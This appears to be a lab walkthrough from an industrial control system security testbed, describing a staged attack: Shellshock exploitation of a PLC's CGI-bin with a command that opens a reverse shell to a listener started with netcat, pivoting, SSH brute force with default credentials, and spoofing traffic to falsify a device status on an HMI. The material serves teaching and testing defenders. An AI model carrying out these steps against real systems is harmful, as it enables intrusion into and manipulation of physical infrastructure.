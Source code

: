 # Multi Stage Attack scenario

This page outlines an attack targeting the Internal Gateway, which is not directly accessible from the attacker machine. To overcome this limitation, the attacker leverage ShellShock vulnerability in the Genera-PLC to pivot and gain access to the target. Then, traffic is spoofed to manipulate M-IED1 device. Notably, all files and tools required to execute this attack are already included within the provided Docker container.

---

The first stage of the attack path exploits the Shellshock vulnerability in the General-PLC, specifically targeting the CGI-Bin module of the Apache web server. This vulnerability enables attackers to inject and execute malicious commands through specially crafted HTTP requests since the CGI (Common Gateway Interface) scripts on Apache invoke the Bash shell for processing the HTTP response. The following commands illustrate the exploitation process:

- Execute the exploit:
```bash
python3 shellshock.py 10.0.1.100 4444 http://10.0.1.66//cgi-bin/stats
```

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/shellshock.png "Figure: Shellshock Exploit")

- Establish a reverse shell listener:
```bash
nc -lvnp 4444
```

![Reverse Shell](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/reverse.png "Figure: Reverse Shell")

To progress further along the attack path, the attacker must perform pivoting to reach the I-Gateway. Indeed, this device is typically unreachable from the SCADA Network. However, by compromising the General-PLC, the attacker can bypass these restrictions and establish a connection to the I-Gateway using port forwarding techniques. It is worth noting that the shell upgrade has already been performed. For those interested in understanding how to execute the shell upgrade, detailed guidance can be found [this link](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

![Tool Download](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/download.png "Figure: Tool Download")

Then, the attacker is able to brute force the SSH service exposed by the gateway and take complete control of the endpoint. In fact, this service was exploited by finding the default credential. Therefore, this credential enables us also to gain root privilege.

![SSH Bruteforce](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/bruteforce.png "Figure: SSH Bruteforce")

Then, the attacker brute-forces the SSH service exposed by the I-Gateway. This attack exploits the discovery of default credentials configured for the SSH authentication mechanism. Moreover, the use of these credentials grants root privileges.

![SSH Access](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/ssh-mod.png "Figure: SSH Access")

Finally, the attacker alters the communication passing through the I-Gateway in order to manipulate the visualization of the M-IED1 status.

![Packet Modification](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/packetModification.png "Figure: Packet Modification")

Indeed, from the HMI interface, we can observe that MIED1 appears to be active. However, by using the TestNode, which is connected to the same network interface as the MPLC, it is possible to confirm that the displayed MIED1 is close.

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/HMI.png "Figure: Shellshock Exploit")

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/coils.png "Figure: Shellshock Exploit")
